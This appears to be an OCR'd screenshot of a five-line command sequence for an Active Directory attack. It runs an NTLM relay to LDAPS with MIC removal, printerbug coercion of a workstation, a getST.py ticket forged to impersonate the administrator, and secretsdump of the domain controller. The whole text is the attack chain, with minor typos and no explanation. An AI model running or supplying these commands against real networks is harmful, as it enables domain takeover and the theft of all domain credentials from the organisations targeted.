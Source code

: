 	>python ntlmrelayx.py -t ldaps://dc.zone.com --remove-mic --delegate-access -smb2support
	>python printerbug.py zone.com/y@win7.zone.com 192.168.0.attack
	>python getST.py -spn host/win7.zone.com 'zone.com/机器账户$:密码' -impersionate administrator -dc-ip 192.168.0.1
	>export KRB5CCNAME=XX.ccahe
	>python secretdump.py -k -no-pass dc.zone.com -just-dc
